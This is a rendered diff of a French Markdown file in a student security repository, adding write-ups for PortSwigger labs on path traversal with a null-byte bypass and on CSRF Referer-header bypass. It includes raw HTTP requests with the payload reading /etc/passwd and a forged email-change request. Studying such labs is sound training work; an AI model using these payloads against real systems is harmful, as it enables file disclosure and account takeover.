

Before and after one commit to deathfal/security-project, a Markdown page: challenges/challenges.md, 2 parts joined by grey strips. Shown: that part at 96% size. Drawn GitHub-style; pictures changed too: challenges/img/CSRF - Token not tied session.png (added), challenges/img/File path traversal - Null byte bypass.png (added); blank space fills up the shorter version.

````diff
--- a/challenges/challenges.md
+++ b/challenges/challenges.md
@@ -1,6 +1,17 @@
-# 1. Mettre le titre
+# 1. File path traversal - Null byte bypass
 Link: https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass
 
+Depuis HTTP history dans Burp Suite, j'ai repéré la requête de récupération d'une image et je l'ai envoyée dans Repeater. En modifiant le paramètre `filename` avec un chemin relatif et un byte nul, le serveur accepte encore l'extension `.png` mais lit le fichier pointé avant le `%00`. Cela m'a permis de récupérer `/etc/passwd` malgré la validation côté serveur.
+
+```http
+GET /image?filename=../../../etc/passwd%00.png HTTP/2
+Host: 0a97006403436ad3840fa4d000a90033.web-security-academy.net
+Cookie: session=NVJdQdCDE5vtDqRbXMSoZaJJjtvvEGxA
+Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
+...
+```
+
+<img src="img/File path traversal - Null byte bypass.png" alt="capture 1" width="400">
 
 # 2. PHP - Filters
 Link: https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters
@@ -27,0 +79,18 @@ Pour valider le projet, il me suffisait simplement d'entrer le mot de passe de l
+<img src="img/CSRF - Token not tied session.png" alt="capture 3" width="400">
+
+# 5. CSRF where Referer validation depends on header being present
+Link: https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present
+
+Le serveur n'applique la vérification du Referer que si l'en-tête est présent. Après avoir capturé une requête `POST /my-account/change-email`, j'ai testé dans Repeater : un Referer modifié déclenche un refus, mais la suppression totale de l'en-tête laisse passer la requête et met à jour l'adresse e-mail. Cette faiblesse permet de préparer un formulaire malveillant.
+
+```http
+POST /my-account/change-email HTTP/2
+Host: 0a5a005503046d8e80600888005b000c.web-security-academy.net
+Cookie: session=qcfIlCBU3kMUP9jSVSk3NCTL0vhNZDO0
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 23
+Origin: https://0a5a005503046d8e80600888005b000c.web-security-academy.net
+
+email=testt%40gmail.com
+```
+
````
Also changed, not shown: other parts of challenges/challenges.md (+70 -0 lines), challenges/img/CSRF - Jeton contournement.png (added), challenges/img/CSRF - Referer optional.png (added), challenges/img/SSTI - Unknown template exploit.png (added).
